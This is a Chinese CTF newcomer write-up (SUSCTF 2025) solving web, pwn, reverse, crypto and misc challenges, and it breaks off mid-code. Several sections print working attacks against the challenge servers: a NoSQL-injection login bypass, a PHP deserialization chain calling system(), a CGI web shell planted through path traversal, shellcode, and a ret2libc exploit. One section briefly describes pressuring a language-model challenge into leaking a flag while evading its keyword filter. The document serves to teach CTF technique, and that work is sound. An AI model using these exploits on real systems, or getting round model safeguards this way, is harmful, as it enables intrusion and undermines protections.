


+++
date = '2025-09-30'
draft = false
title = 'SUSCTF@2025 新生赛 WriteUp'
slug = 'susctf-2025-newcomers-writeup'
author = 'laboon'
tags = ['ctf-writeup','cybersecurity']
showtoc = true
showrightsidebar = true
rightSidebarWidgets = ["profile", "tags", "meta"]
sidebarAuthor = "laboon"
sidebarBio = "Happy Hacking"
+++

---



## Flagdle

**Type**: web / **Author**: 135e2 / **Difficulty**: Easy

尝试玩Wordle，发现并不属于英语单词的flagdle可以被识别

检查网络发现有如下请求

其中index-v114.5.14.js 和index-v114.5.14.css中版本号令人在意，肯定是经过出题人的修改。

由于之前flagdle的疑点，查看单词字典发现

使用python获取e(31483)等单词，组成句子，

Submit the last Four words as flag signthe webflag from our flagdle

尝试原单词词典最后四个词语失败，尝试signthewebflagfromourflagdle成功

---

## nosqli

**Type**: web / **Author:** 135e2 / **Difficulty:** Medium

注意到index.js 文件中有两个用户，admin 和 flag（本题目标），并且在成功登录后会输出{user.username}，即flag。

题目提示nosql，使用常规MongoDB nosql注入方法，向query-password注入$exists按照操作符的逻辑执行了查询，成功登录。

```python
import requests

def main():
    url = "http://game.ctf.seusus.com:xxxxx/login" # 端口在wp里隐去
    # 构造NoSQL注入负载，匹配非admin用户且密码存在的文档
    data = {
        "username": {"$ne": "admin"},
        "password": {"$exists": True}
    }

    try:
        response = requests.post(url, json=data)
        if response.status_code == 200:
            # 提取响应中的用户名（即flag）
            flag = response.text.replace("Logged in as ", "")
            print(f"Flag: {flag}")
        else:
            print(f"请求失败，状态码: {response.status_code}, 响应: {response.text}")
    except Exception as e:
        print(f"发生错误: {e}")

if __name__ == "__main__":
    main()
```

---

## ezphp

**Type**: web / **Author:** hardream / **Difficulty:** Medium

php 反序列化，生成之后使用curl post到ser中，或者构建好之后是由python request库发送请求。

读取文件式payload构建

```python
import hashlib
import urllib.parse

import requests


def generate_exact_payload(flag_path="/flag"):
    """
    生成精确格式的Payload，特别注意PHP私有属性的空字符处理
    """
    password = "hack"
    forced_salt = "you_will_never_get_flag"
    calculated_token = hashlib.md5((password + forced_salt).encode()).hexdigest()

    # 构建完整的POP链：Main -> Flag -> Secret
    # Secret对象（无属性）
    secret_obj = 'O:6:"Secret":0:{}'

    # Flag对象（有两个私有属性：secret和key）
    flag_obj = 'O:4:"Flag":2:{s:12:"\x00Flag\x00secret";' + secret_obj + 's:9:"\x00Flag\x00key";s:' + str(len(flag_path)) + ':"' + flag_path + '";}'

    # Main对象（有四个私有属性）
    main_obj = 'O:4:"Main":4:{s:10:"\x00Main\x00flag";' + flag_obj + 's:14:"\x00Main\x00password";s:4:"' + password + '";s:11:"\x00Main\x00token";s:32:"' + calculated_token + '";s:10:"\x00Main\x00salt";s:11:"dummy_salt";}'

    return main_obj


# 测试发送
url = "http://106.14.191.23:58376/"  # 替换为实际URL
paths_to_try = [
    "/flag",
]
for i in paths_to_try:
    payload = generate_exact_payload(i)
    # payload = generate_info_payload()
    data = {"ser": payload}

    response = requests.post(url, data=data)
    print("响应头:", response.headers)
    print("响应状态码:", response.status_code)
    print("响应内容:", str(response.text))
```

susctf{congrats!!!_you_get_f4ke_flag}，发现目录下flag并非真的flag，尝试关键目录无果后换一种生成方式，直接发送运行shell命令，直接使用php编写，更加标准正确便于修改。

发送`find / -name "*flag*" -type f 2>/dev/null`搜索flag文件

```php
<?php
class Main {
    private $flag;
    private $password = 'any_value'; // 可任意设置
    private $token; // 需要正确计算
    private $salt;
}

class Flag {
    private $secret;
    private $key = "asd"; // 先用简单命令测试
}

class Test_Deprecated {
    public $test;
    protected $deprecated = "system";
}

// 定义要设置的值
$password_value = 'any_value';
$token_value = md5($password_value . "you_will_never_get_flag");
$deprecated_value = "system";
$key_value = "find / -name \"*flag*\" -type f 2>/dev/null";

// 构造对象
$main = new Main();
$test_deprecated = new Test_Deprecated();
$flag = new Flag();

// 使用反射设置 Main 对象的私有属性 password
$reflection_main = new ReflectionClass($main);
$password_prop = $reflection_main->getProperty('password');
$password_prop->setAccessible(true); // 设置可访问性
$password_prop->setValue($main, $password_value);

// 使用反射设置 Main 对象的私有属性 token
$token_prop = $reflection_main->getProperty('token');
$token_prop->setAccessible(true);
$token_prop->setValue($main, $token_value);

// 使用反射设置 Test_Deprecated 对象的受保护属性 deprecated
$reflection_test = new ReflectionClass($test_deprecated);
$deprecated_prop = $reflection_test->getProperty('deprecated');
$deprecated_prop->setAccessible(true);
$deprecated_prop->setValue($test_deprecated, $deprecated_value);

// 使用反射设置 Flag 对象的私有属性 key
$reflection_flag = new ReflectionClass($flag);
$key_prop = $reflection_flag->getProperty('key');
$key_prop->setAccessible(true);
$key_prop->setValue($flag, $key_value);

// 使用反射设置 Flag 对象的私有属性 secret（其值为 $test_deprecated 对象）
$secret_prop = $reflection_flag->getProperty('secret');
$secret_prop->setAccessible(true);
$secret_prop->setValue($flag, $test_deprecated);

// 使用反射设置 Main 对象的私有属性 flag（其值为 $flag 对象）
$flag_prop = $reflection_main->getProperty('flag');
$flag_prop->setAccessible(true);
$flag_prop->setValue($main, $flag);

// 序列化对象以生成Payload
$payload = serialize($main);
echo "Payload: " . $payload . "\n";
echo "URL Encoded: ser=" . urlencode($payload) . "\n";
echo "curl -X POST http://106.14.191.23:xxxxxx/ --proxy http://127.0.0.1:8080 --data \"ser=". urlencode($payload) . "\"";
?>
// http://127.0.0.1:8080 为Burpsuite监听代理
// 预防flag生成在请求头中
```

查询到flag在文件/flag-SQtAi9eJle2zrXsNzo4P5zE2jxk4mfa4中，进行读取获得flag

---

## ez_upload

**Type**: web / **Author:** 135e2 / **Difficulty:** Medium

文件上传漏洞，提示CGI。上传文件发现网站利用cgi-bin/upload.py进行上传

瞎填尝试url发现错误提示`http://106.14.191.23:xxxxx/cgi-bin/upload.py?asdf`

获得python3环境目录 `/usr/bin/python3`

使用../../cgi-bin/shell.py路径遍历上传到cgi-bin/shell.py，但发现无法运行，怀疑是没有chmod或者服务端没有配置允许运行。

灵机一动，直接上传到../../cgi-bin/upload.py

```python
#!/usr/bin/python3
import cgi
import subprocess
import sys
print("Content-Type: text/html; charset=utf-8")
print()  
# 2. 开始输出HTML内容
print("""
<html>
<head><title>Command Executor</title></head>
<body>
<h2>CGI Command Test</h2>
""")

# 3. 获取表单数据
form = cgi.FieldStorage()
command = form.getvalue("cmd")

# 4. 处理命令执行
if command:
    try:
        # 使用subprocess.run更安全，可以控制输出
        result = subprocess.run(command, shell=True, capture_output=True, text=True, timeout=5)
        output = result.stdout if result.returncode == 0 else result.stderr
        print(f"<pre>命令输出：\n{output}</pre>")
    except subprocess.TimeoutExpired:
        print("<p style='color: red;'>错误：命令执行超时。</p>")
    except Exception as e:
        print(f"<p style='color: red;'>执行时发生错误：{e}</p>")
else:
    print("<p>未接收到命令。</p>")

# 5. 输出表单
print("""
<form method="POST" action="">
    <input type="text" name="cmd" size="50" placeholder="输入命令">
    <input type="submit" value="执行">
</form>
</body>
</html>
""")

sys.stdout.flush()  # 确保所有输出都被发送
```

获得shell，find命令超时，开始疯狂遍历寻找flag，先ls，后cat，最终在主目录下找到

---

## ez_zip

**Type**:  Misc / **Author:** MorgenEule / **Difficulty:** Easy

解压列表发现文件均为2,3byte，可以使用CRC32碰撞

使用工具CRC32-Tools `https://github.com/AabyssZG/CRC32-Tools` 进行破解

但是注意到part_08.txt碰撞失败，结合上下文猜测得

susctf{Congr@tulat1ons_4or_2b1t_CRC_Cr@ck!!}

---

## ez_osint

**Type**: Misc / **Author:** MorgenEule / **Difficulty:** Medium

找花，查看图片GPS信息

定位，线下查找，晚自习路上拍的照片

上网搜索正式名称，反复尝试石头，可得 “功不唐捐”海纳百川泰山石。

`https://electronic.seu.edu.cn/2021/1107/c2028a389850/page.htm`

---

## SUSGame

**Type**: Misc / **Author:** illunight / **Difficulty:** Hard

项目使用Renpy引擎编写，查找解包工具unrpa，并且发现game/下有可疑archive.rpa文件，但是解压失败，怀疑经过加密。

使用binwalk强行拆分，得无数zlib文件

使用python 批量解压，并且输出到同一个文件

```python
import zlib
import os
import glob

def decompress_and_merge_zlib_files(input_directory, output_file_path):
    """
    解压目录中所有.zlib文件并合并到单个输出文件

    参数:
        input_directory: 包含.zlib文件的输入目录
        output_file_path: 合并后的输出文件路径
    """
    # 查找目录中的所有.zlib文件 [1,3](@ref)
    zlib_files = glob.glob(os.path.join(input_directory, "*.zlib"))

    if not zlib_files:
        print(f"在目录 {input_directory} 中未找到任何.zlib文件")
        return False

    # 按文件名排序以确保顺序 [1](@ref)
    zlib_files.sort()
    print(f"找到 {len(zlib_files)} 个.zlib文件")

    # 创建输出目录（如果不存在）
    os.makedirs(os.path.dirname(output_file_path), exist_ok=True)

    try:
        # 打开输出文件
        with open(output_file_path, 'wb') as output_file:
            # 逐个处理每个.zlib文件
            for i, file_path in enumerate(zlib_files, 1):
                print(f"处理文件 {i}/{len(zlib_files)}: {os.path.basename(file_path)}")

                try:
                    # 读取压缩文件内容 [2,8](@ref)
                    with open(file_path, 'rb') as compressed_file:
                        compressed_data = compressed_file.read()

                    # 解压数据 [2,4,6](@ref)
                    decompressed_data = zlib.decompress(compressed_data)

                    # 将解压后的数据写入输出文件
                    output_file.write(decompressed_data)
                    print(f"  成功解压并合并，大小: {len(decompressed_data)} 字节")

                except zlib.error as e:
                    print(f"  解压失败: {e}，文件可能不是有效的zlib格式 [8](@ref)")
                    continue
                except Exception as e:
                    print(f"  处理文件时出错: {e}")
                    continue

        print(f"\n所有文件已成功处理并合并到: {output_file_path}")
        return True

    except Exception as e:
        print(f"处理过程中发生错误: {e}")
        return False

# 在这里直接设置您的路径
if __name__ == "__main__":
    # 配置参数 - 直接在这里修改路径
    INPUT_DIRECTORY = "/.../SUS-1.0-pc/game/_archive.rpa.extracted/"  # 替换为您的.zlib文件所在目录
    OUTPUT_FILE_PATH = "/.../SUS-1.0-pc/game/hi.txt"  # 替换为您想要的输出文件路径

    # 执行解压和合并操作
    decompress_and_merge_zlib_files(INPUT_DIRECTORY, OUTPUT_FILE_PATH)
```

发现解密文件疑似16进制，使用101editor打开，搜索susctf得

---

## eternalblue

**Type**: Misc / **Author:** X_Y / **Difficulty:** Easy

使用wireshark进行流量审计，统计tcp协议通信最频繁的ip，推测为攻击者IP_被攻击的靶机IP。

---

## flagophobia

**Type**: Misc / Author: MorgenEule / Difficulty: Medium

提示词微调，轻柔安抚，笑里藏刀，强行逼供

删除.(预防可能的有敏感词限制)，获得flag

---

## flagchecker

**Type**: Reverse / **Author:** 135e2 / **Difficulty:** Easy

使用ghidra工具进行反编译，找到main函数

继续定位 check_password transform

发现加密过程是对每个字节进行异或操作，异或运算的密钥是 `((char)(local_c << 3) - (char)local_c) + 0xdU`。`local_c`是循环变量，代表当前字节的​**​索引（从0开始）​**​。`local_c << 3`等价于 `local_c * 8`。

所以表达式可简化为：`(8 * i - i) + 0xd`= `(7 * i + 13)`，即每个字节 `data[i]`被替换为 `data[i] XOR (7 * i + 13)`。

异或运算是​​可逆的​，可以使用相同的密钥对变换后的数据再执行一次异或操作，得到原始数据。

```python
# 从内存中提取的密文 (小端序格式)
local_48 = 0x7d4c565d4168617e
local_40 = 0x24301a5231302973
local_38 = 0xd3c393eae0eef218

# 将三个整数转换为字节数组，注意使用小端序
ciphertext_bytes = []
ciphertext_bytes.extend(int.to_bytes(local_48, 8, 'little'))
ciphertext_bytes.extend(int.to_bytes(local_40, 8, 'little'))
ciphertext_bytes.extend(int.to_bytes(local_38, 8, 'little'))

# 解密函数
plaintext_bytes = []
for i, byte in enumerate(ciphertext_bytes):
    # 计算每个字节的密钥：key = (7 * i + 13) % 256
    key = (7 * i + 13) % 256
    # 异或操作解密
    plain_byte = byte ^ key
    plaintext_bytes.append(plain_byte)

# 将解密后的字节转换为字符串
flag = ''.join(chr(b) for b in plaintext_bytes)
print("The flag is:", flag) #susctf{C6eck3r_Revers3d}
```

---

## 酸黄瓜

**Type**: Reverse / **Author:** 135e2 / **Difficulty:** Easy

python 序列化，使用python pickle进行反序列化

```python
import pickle

# 你提供的序列化字节数据
pickled_data = b'\x80\x05\x951\x00\x00\x00\x00\x00\x00\x00]\x94(KsKuKsKcKtKfK{K1KmK_KPK1KcKkKlK3KdK_KuKWKuK}e.'

try:
    # 反序列化
    original_object = pickle.loads(pickled_data)
    print("反序列化得到的对象:", original_object)
    print("对象类型:", type(original_object))

except Exception as e:
    print("反序列化过程中出现错误:", e)
```

得到`[115, 117, 115, 99, 116, 102, 123, 49, 109, 95, 80, 49, 99, 107, 108, 51, 100, 95, 117, 87, 117, 125]`

观察推测为ASCII 码，解码为`susctf{1m_P1ckl3d_uWu}`

---

## expression

**Type**: Reverse / **Author:** illunight / **Difficulty:** Medium

阅读汇编代码，解析关键部分。

输入计算表达式，可以使用 + - * ，只能含有1,2两个数字并且不能超过3个数位，当计算结果为8888时成功。

观察得到`112 * 121-212 * 22 = 8888`

提交表达式，获得flag

---

## hiandroid

**Type**: Reverse / **Author:** 318 / **Difficulty:** Medium

apk使用jadx进行反编译，搜索susctf{

---

## shellsignin

**Type**: Pwn / Author:** 135e2 / **Difficulty:** Easy

通过run.sh可知flag在目录/flag中

ghidra 反编译pwn可得

发现输入shell就可以获得shell。

nc连接，输入shell，获得shell，再cat flag获取flag

---

## shellcd

**Type**: Pwn / **Author:** longque / **Difficulty:** Easy

ghidra 反编译，寻找关键函数，理解程序

在输入magic code之后程序运行了fun_001012ae，功能为判断传入字符是否均为可打印字符（0x4000）

如果判断成功则执行fun_00101317，功能为将传入字符写入iVarl所在内存，并且将该内存设定为可改变和可执行，随后在15行(*param_1)时调用（运行）这段内存。

则攻击流程即为生成纯字符的shellcode输入即可获得终端。

注意在命令行中使用Ctrl + D输入而不是回车，在pwntools中使用send而非sendline。

查看(*param_1)指令使用寄存器类型为RDX

使用ae64工具将pwntools生成的shellcode转化为纯字符形式

```python
from ae64 import AE64
from pwn import *
obj = AE64()
sc = obj.encode(asm(shellcraft.sh()), 'rdx')
print(sc)
```

最后使用pwntools攻击

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

HOST = 'game.ctf.seusus.com'
PORT = xxxxx

p = remote(HOST, PORT)

# 或者尝试这个更短的 64位 shellcode
shellcode_64_short = (
    b"RXWTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZj3TYfi9520t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9200t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP"
)

p.recvuntil(b"enter magic code: ")

# 发送 shellcode
p.send(shellcode_64_short)

# 等待程序输出 "[*] running..." 表示 shellcode 即将执行
p.recvuntil(b"[*] running...")

# 给 shellcode 执行时间
import time
time.sleep(0.5)

# 现在应该获得了 shell，发送命令
p.sendline(b"cat flag")

# 进入交互模式
p.interactive()
p.close()
```

获得flag

（复现时截屏）

---

## login

**Type**: Pwn / **Author:** longque / **Difficulty:** Medium

提示显示为ret2libc泄露攻击，按照基本步骤获取：偏移量，pop rdi;ret gadget，libc中system、/bin/sh偏移地址。

计算偏移量

```python
from pwn import *
context.log_level = 'debug'

# 生成一个长字符串
pattern = cyclic(200)
p = process('./pwn')
p.sendline(pattern)
p.sendline("df")
p.wait() # 等待程序崩溃，获取核心转储

# 从核心转储中获取覆盖RIP的值，例如是 0x6161616b
core = p.corefile
rip_value = core.read(core.registers['rsp'], 4)
offset = cyclic_find(rip_value) # 计算偏移
log.info("Offset: " + str(offset))
```

计算函数偏移

```python
from pwn import *

libc = ELF('./libc.so.6')

# 获取关键函数偏移
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b'/bin/sh'))
puts_offset = libc.symbols['puts']
exit_offset = libc.symbols['exit']

print(f"System offset: {hex(system_offset)}")
print(f"/bin/sh offset: {hex(binsh_offset)}")
print(f"Puts offset: {hex(puts_offset)}")
```

pop rdi;ret

```bash
ROPgadget --binary pwn --only "pop|ret" | grep rdi
```

总体数据：

```bash
input offset 120
System offset: 0x52290
/bin/sh offset: 0x1b45bd
Puts offset: 0x84420
0x0000000000401393 : pop rdi ; ret
[*] System address: 0x7fd63ebf06b0
[*] /bin/sh address: 0x7fd63ed529dd
```

使用python脚本第一次攻击puts函数泄露获得libc基址，再进行二次攻击获得shell

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')  # 调试时可设为'debug'，正常运行时建议'info'

# 加载二进制文件
elf = ELF('./pwn')

# 获取必要地址
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_addr = elf.entry  # 使用 symbols['main'] 通常比 entry 更准确
pop_rdi = 0x401393  # pop rdi; ret gadget
ret = 0x40101a      # 找一个单独的 `ret` 指令gadget，用于栈对齐。地址需根据实际二进制文件查找。

# 连接到程序
p = remote('game.ctf.seusus.com', xxxxx)

# === 第一阶段：泄露libc地址 ===
p.recvuntil(b'username: ')
offset = 120

# 构造泄露用的ROP链
payload1 = b'A' * offset
payload1 += p64(pop_rdi)
payload1 += p64(puts_got)
payload1 += p64(puts_plt)
payload1 += p64(main_addr)  # 返回main，准备第二次攻击

p.sendline(payload1)
p.recvuntil(b'password: ')
p.sendline(b'asdf')  # 发送任意密码
p.recvuntil(b"wrong username or password!\n")

# 接收泄露的地址
leaked_data = p.recvline(keepends=False)
if len(leaked_data) < 8:
    leaked_data = leaked_data.ljust(8, b'\x00')
else:
    leaked_data = leaked_data[:8]  # 确保只取8个字节

leaked_puts = u64(leaked_data)
log.success(f"Leaked puts address: {hex(leaked_puts)}")

puts_offset = 0x84420  # 偏移，必须与目标libc匹配
libc_base = leaked_puts - puts_offset
system_offset = 0x52290
bin_sh_offset = 0x1b45bd
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset

log.info(f"Calculated libc base: {hex(libc_base)}")
log.info(f"Calculated system address: {hex(system_addr)}")
log.info(f"Calculated /bin/sh address: {hex(bin_sh_addr)}")

# === 第二阶段：获取shell ===
p.recvuntil(b'username: ')

# 【关键修复】构造稳定的ROP链，考虑栈对齐
payload2 = b'A' * offset
payload2 += p64(ret)        # 添加ret指令进行栈对齐，应对MOVAPS问题
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)

p.sendline(payload2)
p.recvuntil(b'password: ')
p.sendline(b'asdf')  # 发送任意密码

# 尝试获取flag
p.sendline(b'cat flag')  # 等待shell提示符
flag = p.recvline()
log.success(f"{flag.decode().strip()}")

p.interactive()
```

---

## dragongame

**Type**: Pwn / **Author:** longque / **Difficulty:** Easy

尝试游玩，发现全买最后不会留钱买beer，并且只买a large sword也可以成功打龙。

```python
p = remote(host, port)
p.sendlineafter(b"Now your choice is:",b"2")
p.sendlineafter(b"Now your choice is:",b"4")
for i in range(0,50):
    p.sendlineafter(b">>",b"1")
```

发现beer每3元一瓶，并且可以购买至金钱为负数，怀疑int整数溢出。

计算尝试得715827885可以触发整数溢出使总金额超过2000000, 也不会触发aha的检测

购买 tavern，获得shell，cat flag

---

## seed

**Type**: Crypto / **Author:** illunight / **Difficulty:** Easy

给的secret.py文件有误导，实测每次生成随机种子不变且不会输出，尝试n次获得其中一组的密码序列

`432 390 371 89 773 190 741 178 1021 820`

获得flag

---

## SUSBank

**Type**: Crypto / **Author:** illunight / **Difficulty:** Medium

阅读代码，根据浅薄rsa了解可知，暴力破解p q d不可能，e也没有大过可以使用低解密指数攻击，寻找其他方法。

先赚两次钱

```python
import hashlib 
import itertools
import string

def find_xxx(proof_suffix, target_digest):
    alphabet = string.ascii_letters + string.digits  # a-z, A-Z, 0-9
    for candidate in itertools.product(alphabet, repeat=3):
        xxx = ''.join(candidate)
        test_proof = xxx + proof_suffix
        test_digest = hashlib.sha256(test_proof.encode()).hexdigest()
        if test_digest == target_digest:
            return xxx  # Found the correct XXX
    return None  # If no match is found

proof_suffix = input("这里填入后缀")
target_digest = input("这里填入哈希值")

xxx = find_xxx(proof_suffix, target_digest)
if xxx:
    print(f"Found XXX: {xxx}") 
else:
    print("No matching XXX found.")
```

因为n已知，并且pow(balance,d,n) + rand中rand位数已知，发现可以通过暴力枚举所有16位素数(二进制下)，恢复2^d mod n。

```python
from Crypto.Util.number import *
from gmpy2 import next_prime

# bytes_to_long(b"SUS") = 5461331

# 一次测试时候的值
n = # a big number
e = # a smaller but big number
S1 = # a bigger number

# 找到所有16位素数
primes = []
p = 2
while p < 2**16:
    primes.append(p)
    p = next_prime(p)

# 寻找加密余额C
C = None
for rand in primes:
    if rand > S1:
        continue
    candidate = S1 - rand
    if candidate >= n:
        continue
    if pow(candidate, e, n) == 2:  # 因为余额是2
        C = candidate
        print(f"Found encrypted balance C: {C}")
        print(f"Corresponding rand: {rand}")
        break

if C is None:
    print("Failed to find encrypted balance")
    exit(1)

# 计算T = C^23 mod n (2^23的签名)
T = pow(C, 23, n)

print(f"T (signature of 2^23): {T}")deposit = T + rand
print(f"Final deposit value to input: {deposit}")
```

由于2^23 > SUS，且位长度小，计算T = (2^d mod n)^23 mod n，即2^23的签名。

在选项3中输入deposit = T + rand。计算check_deposit = T^e mod n = 2^23 > SUS，且位长度为24 < 1024，从而获得flag。

---

## modular

**Type**: Crypto / **Author:** illunight / **Difficulty:** Medium

```python
from Crypto.Util.number import long_to_bytes

# 给定参数
p = 269362074288207307542642012900174543199
C = [1349874547, 26990, 285337416819, 2]
encrypted_vector = [50930964716312266177839139457723607648, 201050527555147895574798415306904201600]

# 计算矩阵 M 的元素 mod p
a = C[0] % p
b = C[2] % p
c = (C[0] * C[1]) % p
d = (C[2] * C[1] + C[3]) % p

# 矩阵 M
M = [[a, b],
     [c, d]]

# 计算矩阵 M 的 10 次幂 mod p
def matrix_power(matrix, power, mod):
    # 初始化单位矩阵
    result = [[1, 0],
              [0, 1]]
    base = matrix
    while power:
        if power & 1:
            result = matrix_mult(result, base, mod)
        base = matrix_mult(base, base, mod)
        power //= 2
    return result

def matrix_mult(A, B, mod):
    # 2x2 矩阵乘法 mod p
    a00 = (A[0][0] * B[0][0] + A[0][1] * B[1][0]) % mod
    a01 = (A[0][0] * B[0][1] + A[0][1] * B[1][1]) % mod
    a10 = (A[1][0] * B[0][0] + A[1][1] * B[1][0]) % mod
    a11 = (A[1][0] * B[0][1] + A[1][1] * B[1][1]) % mod
    return [[a00, a01],
            [a10, a11]]

M_power_10 = matrix_power(M, 10, p)

# 计算 M^10 的行列式 mod p
det = (M_power_10[0][0] * M_power_10[1][1] - M_power_10[0][1] * M_power_10[1][0]) % p
# 求行列式的模逆元
det_inv = pow(det, -1, p)

# 计算逆矩阵
inv_M = [
    [ (M_power_10[1][1] * det_inv) % p, (-M_power_10[0][1] * det_inv) % p ],
    [ (-M_power_10[1][0] * det_inv) % p, (M_power_10[0][0] * det_inv) % p ]
]

# 用逆矩阵乘以加密向量
flag1 = (inv_M[0][0] * encrypted_vector[0] + inv_M[0][1] * encrypted_vector[1]) % p
flag2 = (inv_M[1][0] * encrypted_vector[0] + inv_M[1][1] * encrypted_vector[1]) % p

# 将整数转换为字节，每个部分为 11 字节
part1 = long_to_bytes(flag1, 11)
part2 = long_to_bytes(flag2, 11)
pure_flag = part1 + part2
flag = b"susctf{" + pure_flag + b"}"

print("Recovered flag:", flag.decode())
```

---

## 小e

**Type**: Crypto / **Author:** illunight / **Difficulty:** Easy

```python
from Crypto.Util.number import long_to_bytes
import gmpy2

# 给定的加密参数
n = 19473657217226489631375845413757470541682315872142662772623549875114840620784595375868748360162778406833581747218483232495423576374773084260726424892890156730796669252466351967580541628491717001005690239747987820442695824839500557427148488532412635189354086921827350085275713018375142742997170762553058523114390294315088003850940433743460380309692776831622674186116250222605065233260804595053000570118032227457304733221907273361162509203328769279253485084947536084548711800499003838853840158545083192535943036729126396237122194099231439084253449993362983394740834217890482847243802871867873829147268001440471046258879
e = 7
ciphertext = 28561470605317183374148973947208337015205233019083134805331114993488917597908970469483373443402785257325792717455513626054000320209565046353979980302854588265022723819778124237905091994296945682686345689812819425429461269509143136468957478040451778806659454217026711890963570042444244062578313745969764614120730568770039799045119902202939597184877942763258993796683186927278604267307100177564100465245015876898866700675558094000558882928348341353971199142049377030945333675431535092427363782086222412049379416094405103846857850626126587929442969427726921704127111825279048983369559304361006259918212890625

# 使用gmpy2库进行大整数运算
ciphertext_mpz = gmpy2.mpz(ciphertext)

# 计算密文的e次方根
m, is_perfect_root = gmpy2.iroot(ciphertext_mpz, e)

if is_perfect_root:
    flag = long_to_bytes(int(m))
    print(f"解密成功！Flag: {flag.decode()}")
else:
    print("直接开方失败，尝试中国剩余定理方法...")

    # 如果直接开方失败，尝试使用中国剩余定理
    # 寻找满足条件的x，使得x^e ≡ ciphertext (mod n)
    # 这可能需要更复杂的数学方法
    # 对于e=7的情况，我们可以尝试寻找模n下的7次方根

    # 方法1: 使用Adleman-Manders-Miller算法求模n下的e次方根
    # 方法2: 使用Hensel引理提升

    # 由于实现这些算法比较复杂，我们可以尝试使用现成的库
    # 例如，使用sympy库的nthroot_mod函数

    try:
        import sympy
        # 尝试使用sympy的nthroot_mod函数
        m = sympy.nthroot_mod(ciphertext, e, n, all_roots=False)
        flag = long_to_bytes(m)
        print(f"使用sympy解密成功！Flag: {flag.decode()}")
    except ImportError:
        print("需要安装sympy库: pip install sympy")
    except Exception as ex:
        print(f"使用sympy解密失败: {ex}")

        # 最后尝试：如果n可以被分解，我们可以使用中国剩余定理
        # 但由于n是2048位，分解几乎不可能
        print("无法解密，可能需要其他方法或n的因子分解")
```

---

## SUSBank-2

**Type**: Crypto / **Author:** illunight / **Difficulty:** Medium

分析代码，发现`r1 = secrets.randbelow(n >> 4)`，意识到可以通过无数次get a token，实测700多次，使得最后的 r1 = 0， c = 0。此时输入 res = 0可经过检验，token变为2, 可以开始存钱。

使用神秘quicker小工具进行批量输入

在存钱时，需要拆解bytes_to_long(b"SUS2025")=23456238879650357为三个素数和，通过prev_prime()和观察配凑得到 23456238879650243 + 97 + 17。

经过next_prime(deposit)，所以输入 23456238879650242 96 16，实际存入23456238879650243 + 97 + 17 = 23456238879650357

得到输入后求解sign，成功存入

```python
import math
from math import ceil, sqrt


def bsgs(g, h, p, bound):
    """
    使用BSGS算法求解离散对数 g^x ≡ h (mod p)，x在0到bound-1范围内
    """
    if g % p == 1:
        return 0 if h % p == 1 else None

    m = ceil(sqrt(bound))

    # 预计算g^j (j=0,1,...,m-1)
    table = {}
